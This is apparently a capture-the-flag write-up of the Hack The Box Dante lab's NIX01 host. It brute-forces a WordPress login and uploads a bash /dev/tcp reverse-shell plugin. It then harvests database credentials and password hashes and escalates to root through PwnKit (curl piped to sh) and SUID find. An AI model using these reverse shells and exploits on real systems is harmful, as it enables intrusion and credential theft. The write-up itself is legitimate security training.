





### Shell as `www-data` on NIX01

##### Find credential using `wpscan`

Let's run `wpscan`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan -e ap -t 500 --url http://10.10.110.100:65000/wordpress --api-token 2aWoB7Y2LPQwxQ6YlDEVqWduZGWFaUiduJHvE80rO2w
[sudo] password for kali: 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.110.100:65000/wordpress/ [10.10.110.100]
[+] Started: Sat Jan  4 04:35:32 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.110.100:65000/wordpress/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.110.100:65000/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.110.100:65000/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Debug Log found: http://10.10.110.100:65000/wordpress/wp-content/debug.log
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: https://codex.wordpress.org/Debugging_in_WordPress

[+] Upload directory has listing enabled: http://10.10.110.100:65000/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.110.100:65000/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.1 identified (Insecure, released on 2020-04-29).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.110.100:65000/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.4.1</generator>
 |  - http://10.10.110.100:65000/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.1</generator>
 |
 | [!] 48 vulnerabilities identified:
 |
 
<SNIP>

[+] WordPress theme in use: twentytwenty
 | Location: http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.2
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 23

[+] Finished: Sat Jan  4 04:35:39 2025
[+] Requests Done: 53
[+] Cached Requests: 6
[+] Data Sent: 12.76 KB
[+] Data Received: 22.102 MB
[+] Memory used: 252.648 MB
[+] Elapsed time: 00:00:07
```

Let's do one more scan for the user enumeration.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan -e u -t 500 --url http://10.10.110.100:65000/wordpress --api-token 2aWoB7Y2LPQwxQ6YlDEVqWduZGWFaUiduJHvE80rO2w

<SNIP>

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.110.100:65000/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] james
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 0
 | Requests Remaining: 23

[+] Finished: Sat Jan  4 04:41:24 2025
[+] Requests Done: 28
[+] Cached Requests: 40
[+] Data Sent: 8.398 KB
[+] Data Received: 146.114 KB
[+] Memory used: 165.578 MB
[+] Elapsed time: 00:00:15
```

There are two users (`admin`, `james`) are identified.

As I found in `wpscan`, let's visit `robots.txt` page.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://10.10.110.100:65000/wordpress/robots.txt
User-agent: *
Disallow: /.*?.swp 
```

It seems that there is a file of which extension is `swp`.
It's a temporary vim editor file which might includes some text data.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.110.100:65000/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x swp
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.110.100:65000/wordpress
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              swp
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 338] [--> http://10.10.110.100:65000/wordpress/wp-content/]                                                
/wp-includes          (Status: 301) [Size: 339] [--> http://10.10.110.100:65000/wordpress/wp-includes/]                                               
/wp-admin             (Status: 301) [Size: 336] [--> http://10.10.110.100:65000/wordpress/wp-admin/]  
```

It doesn't return any `swp` file...

Let's review all I've found so far...
- The `todo.txt` says that the user `james` is using weak password.
- I found `james` from `wpscan`.

Let's try this with `rockyou.txt` first!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan --url http://10.10.110.100:65000/wordpress --usernames 'james' --passwords /usr/share/wordlists/rockyou.txt

<SNIP>
```

I waited for quite long, but it took forever since the wordlist is too large.
Why don't we just make our own wordlist using `cewl`?

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cewl http://10.10.110.100:65000/wordpress/ -d 5 > dante_wp_wordlist.txt


┌──(kali㉿kali)-[~/htb]
└─$ wc -l dante_wp_wordlist.txt 
494 dante_wp_wordlist.txt


┌──(kali㉿kali)-[~/htb]
└─$ head dante_wp_wordlist.txt 
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
wrapper
inner
footer
Dante
LLC
header
menu
the
toggle
```

Let's try brute-forcing with this wordlist.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan --url http://10.10.110.100:65000/wordpress --usernames 'james' --passwords dante_wp_wordlist.txt           
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

<SNIP>

Trying james / Civilization Time: 00:00:15 <> (279 / 494) 56.47%  ETA: 00:00Trying james / Associated Time: 00:00:16 <> (289 / 494) 58.50%  ETA: 00:00:1Trying james / interpreter Time: 00:00:16 <> (290 / 494) 58.70%  ETA: 00:00:Trying james / Netherlands Time: 00:00:16 <> (295 / 494) 59.71%  ETA: 00:00:Trying james / Architecture Time: 00:00:17 <> (324 / 494) 65.58%  ETA: 00:00Trying james / OpenOffice Time: 00:00:20 <> (355 / 494) 71.86%  ETA: 00:00:0Trying james / professional Time: 00:00:22 <> (385 / 494) 77.93%  ETA: 00:00[SUCCESS] - james / Toyota                                                  
Trying james / Toyota Time: 00:00:23 <=  > (400 / 894) 44.74%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: james, Password: Toyota

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jan  4 05:17:10 2025
[+] Requests Done: 575
[+] Cached Requests: 6
[+] Data Sent: 197.658 KB
[+] Data Received: 2.66 MB
[+] Memory used: 289.797 MB
[+] Elapsed time: 00:00:35
```

Bingo! It finds a valid credential : `james` : `Toyota`

##### Open a reverse shell

Let's login on wordpress `wp-admin` panel.



Then, I can find a normal wordpress admin panel as usual.

Typical way to spawn a shell is editing php file.
Through "Application - Theme Editor", I can get to the edit page.

I inserted the following php code in `404.php` code.

```php
<?php
if (isset($_GET['bokchee'])) {
    $ip = escapeshellarg($_GET['ip']);
    $port = escapeshellarg($_GET['port']);
    system("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
}
?>
```

Then I fetched the `404.php` page using the following URL:
`http://enterprise.htb/?p=169&bokchee=1&ip=10.10.14.4&port=443`

However, it doesn't work with the following error message.


I think this version(4.9) of wordpress doesn't allow direct modification of php files.

Here's the reference for the different approaches :
https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html#plugin-rce

I prepared a reverse shell php file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat rshell.php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/9000 0>&1'") ?>
```

Then, let's upload it through "Plugin" menu.

Then, click "Add New"


Click "Upload Plugin" and select `rshell.php` file we just created, then click "Install Now".



Click "Proceed" after typing in "Hostname" and "FTP Username".



Then, on "Media" tab, I can find the file I uploaded!



If I click it, it provides a link for the access.



I waited on `nc` listener and tried to fetch the `rshell.php` page.
Then, I got a shell.

```basah
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.110.100] 40242
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress/wp-content/uploads/2025/01$ pwd
</www/html/wordpress/wp-content/uploads/2025/01$ pwd                         
/var/www/html/wordpress/wp-content/uploads/2025/01
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress/wp-content/uploads/2025/01$ id
<r/www/html/wordpress/wp-content/uploads/2025/01$ id                         
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress/wp-content/uploads/2025/01$ whoami
<w/html/wordpress/wp-content/uploads/2025/01$ whoami                         
www-data
```

##### Find DB Credential

First, let's check if I got into a pivoting point.

```bash
www-data@DANTE-WEB-NIX01:/$ hostname -I
hostname -I
172.16.1.100 
```

The network 172.16.1.0/24 might be the one that we need to pivot into.

Since the shell is spawned on wordpress webroot (`/var/www/html/wordpress/`).

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ ls
ls
index.php
license.txt
readme.html
robots.txt
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```

`wp-config.php` usually contains DB credentials or sensitive data. Let's read it.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH

<SNIP>

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'shaun' );

/** MySQL database password */
define( 'DB_PASSWORD', 'password' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

<SNIP>
```

It exposes DB credential : `shaun` : `password` for the database `wordpress`.

##### Enumerate database on NIX01

Let's investigate database with found credential.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "show databases;"
<ess$ mysql -u shaun -ppassword -e "show databases;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
mysql
performance_schema
sys
wordpress
```

As we found, there's a database named `wordpress`.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "use wordpress; show tables;"
<u shaun -ppassword -e "use wordpress; show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_wordpress
wp_commentmeta
wp_comments
wp_links
wp_options
wp_postmeta
wp_posts
wp_term_relationships
wp_term_taxonomy
wp_termmeta
wp_terms
wp_usermeta
wp_users
```

`wp_user` table looks interesting.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "use wordpress; select * from wp_users;"
<assword -e "use wordpress; select * from wp_users;"
mysql: [Warning] Using a password on the command line interface can be insecure.
ID      user_login      user_pass       user_nicename   user_email      user_url    user_registered user_activation_key     user_status     display_name
1       admin   $P$BiINvM48wJ1iyfwOroCTdFhjB2qOvO.      admin   a@b.com http://127.0.0.1/wordpress  2020-05-09 21:16:26     1735977828:$P$BH3X3H7eBc/l/ST8vXRe3ynhvCXn4T1       0       admin
2       james   $P$B/kdWnMDyh1oMT0QCG9YAyEu8Yt.M0.      james   james@james.james   http://james.james      2020-05-09 22:17:18     1735969640:$P$BPCjtrfo6n3n5P/w7107H/sMOVyMtu/       0       James James

www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "use wordpress;select user_login,user_pass from wp_users;"
<rdpress;select user_login,user_pass from wp_users;"
mysql: [Warning] Using a password on the command line interface can be insecure.
user_login      user_pass
admin   $P$BiINvM48wJ1iyfwOroCTdFhjB2qOvO.
james   $P$B/kdWnMDyh1oMT0QCG9YAyEu8Yt.M0.
```

I tried to crack it using `hashcat` for long, but it was not successful.

##### Shell as  `balthazar` on NIX01

Since there's nothing further useful in the webroot directory, why don't we move onto the next target : `james`
I can list the files in `/home/james` directory.

```yaml
www-data@DANTE-WEB-NIX01:/home/james$ ls -al
ls -al
total 92
drwxr-xr-x 17 james james 4096 Apr 14  2021 .
drwxr-xr-x  4 root  root  4096 Apr 14  2021 ..
-rw-r--r--  1 root  root    74 Aug  5  2020 .bash_history
-rw-r--r--  1 james james  220 May  9  2020 .bash_logout
-rw-r--r--  1 james james 3771 May  9  2020 .bashrc
drwxr-xr-x 13 james james 4096 Apr 14  2021 .cache
drwxr-xr-x 11 james james 4096 Apr 14  2021 .config
drwx------  3 james james 4096 Dec 15  2022 .gnupg
drwxrwxr-x  3 james james 4096 Apr 14  2021 .local
drwx------  5 james james 4096 Apr 14  2021 .mozilla
-rw-r--r--  1 james james  807 May  9  2020 .profile
drwx------  2 james james 4096 Apr 14  2021 .ssh
drwx------  6 james james 4096 Apr 14  2021 .thunderbird
-rw-rw-r--  1 james james  168 May  9  2020 .wget-hsts
drwxr-xr-x  2 james james 4096 Apr 14  2021 Desktop
drwxr-xr-x  2 james james 4096 Apr 14  2021 Documents
drwxr-xr-x  2 james james 4096 Apr 14  2021 Downloads
drwxr-xr-x  2 james james 4096 Apr 14  2021 Music
drwxr-xr-x  2 james james 4096 Apr 14  2021 Pictures
drwxr-xr-x  2 james james 4096 Apr 14  2021 Public
drwxr-xr-x  2 james james 4096 Apr 14  2021 Templates
drwxr-xr-x  2 james james 4096 Apr 14  2021 Videos
-r--------  1 james james   39 Jan  8  2021 flag.txt
```

I don't have an access to `flag.txt` for now since I'm just `www-data` for now.
Btw, I observed that `.bash_history` file has some data and even it's readable.
This sometimes contains credential or critical information.

```bash
www-data@DANTE-WEB-NIX01:/home/james$ cat .bash_history
cat .bash_history
cd /home/balthazar
rm .mysql_history
mysql -u balthazar -p TheJoker12345!
```

Bingo! It has `mysql` credential for `balthazar` : `TheJoker12345!`

Let's try credentials for `james` and `balthazar` on `ssh` though.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh james@10.10.110.100
The authenticity of host '10.10.110.100 (10.10.110.100)' can't be established.
ED25519 key fingerprint is SHA256:Pj8NTFWehqCpZS0qnbXCKkHikSrFlHDgABvA2FE9Lu0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.110.100' (ED25519) to the list of known hosts.
james@10.10.110.100's password: 
Permission denied, please try again.
```

The one for `james` is not working.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh balthazar@10.10.110.100
balthazar@10.10.110.100's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-29-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


636 updates can be installed immediately.
398 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Sat Jan  4 03:34:33 2025 from 10.10.16.3
balthazar@DANTE-WEB-NIX01:~$ id
uid=1002(balthazar) gid=1002(balthazar) groups=1002(balthazar)
```

Luckily, I can get a shell as `balthazar` on `ssh`.

##### Enumeration on NIX01

Let's run `linpeas` to collect vulnerability on the system.

```bash
balthazar@DANTE-WEB-NIX01:~/Documents$ ./linpeas_linux_amd64


╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                         
Sudo version 1.8.31   


╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                          
[+] [CVE-2022-2586] nft_object UAF                                          

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                           
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::33060                :::*                    LISTEN      -                   
tcp6       0      0 :::65000                :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -      


╔══════════╣ Users with console
balthazar:x:1002:1002:Balthazar,,,:/home/balthazar:/bin/bash                
james:x:1001:1001:James,,,:/home/james:/bin/bash
root:x:0:0:root:/root:/bin/bash


╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid 
<SNIP>
-rwsr-xr-x 1 root root 313K Feb 17  2020 /usr/bin/find
<SNIP>


╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path                                                              
/usr/bin/amuFormat.sh                                                       
/usr/bin/gettext.sh
```

There many different methods to privesc to `root`;
- [CVE-2021-4034] PwnKit
- SUID set `find` command

Also, I can see that the port 80 is open to service while not open to external.
I can get this page through pivoting or tunneling later.

##### Shell as  `root` on NIX01

1. Privesc through PwnKit

First, let's prepare repository.
Here's the link of it:
https://github.com/ly4k/PwnKit.git

I need to modify `PwnKit.sh` to download `PwnKit` binary not from online but Kali webserver.

Upload it through python webserver.

```bash
┌──(kali㉿kali)-[~/htb/PwnKit]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.110.100 - - [04/Jan/2025 07:44:04] "GET /PwnKit.sh HTTP/1.1" 200 -
10.10.110.100 - - [04/Jan/2025 07:44:04] "GET /PwnKit HTTP/1.1" 200 -
```

Download and run it.

```bash
balthazar@DANTE-WEB-NIX01:~/Documents$ sh -c "$(curl -fsSL http://10.10.14.3:8000/PwnKit.sh)"
root@DANTE-WEB-NIX01:/home/balthazar/Documents# id
uid=0(root) gid=0(root) groups=0(root),1002(balthazar)
root@DANTE-WEB-NIX01:/home/balthazar/Documents# whoami
root
```

Here I identify **Privilege Escalation Vector via `PwnKit`** vulnerability.
I got `root`!

2. Privesc through SUID `find`

The target has `find` command SUID bit enabled.
According to GTFOBins, I can exploit it to privesc to `root`.

```bash
balthazar@DANTE-WEB-NIX01:~/Documents$ find . -exec /bin/sh -p \; -quit
# id
uid=1002(balthazar) gid=1002(balthazar) euid=0(root) groups=1002(balthazar)
# whoami
root
```

